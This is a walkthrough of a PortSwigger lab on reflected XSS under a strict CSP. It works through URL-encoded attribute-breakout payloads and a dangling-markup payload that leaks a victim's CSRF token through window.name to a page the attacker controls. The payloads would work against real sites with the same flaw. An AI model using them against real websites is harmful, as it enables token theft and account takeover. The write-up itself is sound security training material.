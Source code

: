 ### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack
After we've logged in, we hit the endpoint:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener
```
On the page that we get back, we have the following:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```
It turns out if we add `&email=22` to the url, we see that it is reflected in the value of the email input:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=22
```
```bash
<input required="" type="email" name="email" value="22">
```
With that knowledge we can try to break out of that email input element, and we try to inject e.g. an `<img>` element. 
We use the following payload: `"><img src="https://www.google.com/someimage"` but we have to **url encode** it.
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=%22%3e%3c%69%6d%67%20%73%72%63%3d%22%68%74%74%70%73%3a%2f%2f%77%77%77%2e%67%6f%6f%67%6c%65%2e%63%6f%6d%2f%73%6f%6d%65%69%6d%61%67%65%22
```
It worked. A new img element appeared on the page.
We also got the following err: `Refused to load the image 'https://www.google.com/someimage' because it violates the following Content Security Policy directive: "img-src 'self'"`

Because of csp we can't really load external images. But we can anyway expect user to click on some button that we inject. So we try the following (we have to url encode, but here we're not doing it for the sake of readability):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target=haha>
```
`<base target=haha>` here plays an interesting role. When user clicks on "Click me" they are redirected to `http://localhost:3000`. (of course we can use malicious website instead of localhost) 
On malicious website (on localhost in our case) inside of dev tools when we write `window.name` we see `haha` returned. `haha` was specified as `target` in `<base target="haha">`

Now let's try dangling markup vulnerability:
It's important to remember what the page html elements are:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```

So in the url we specify the following (of course url encoded version of it):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target="
```
And when we navigate to malicious website (`localhost` in this case) we see the following:
```bash
'">\n <input required type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc"><button class='
```
> Note: the technique above no longer works on port swigger academy, the lab has been updated. But the technique above is still interesting, that's why it is included here.

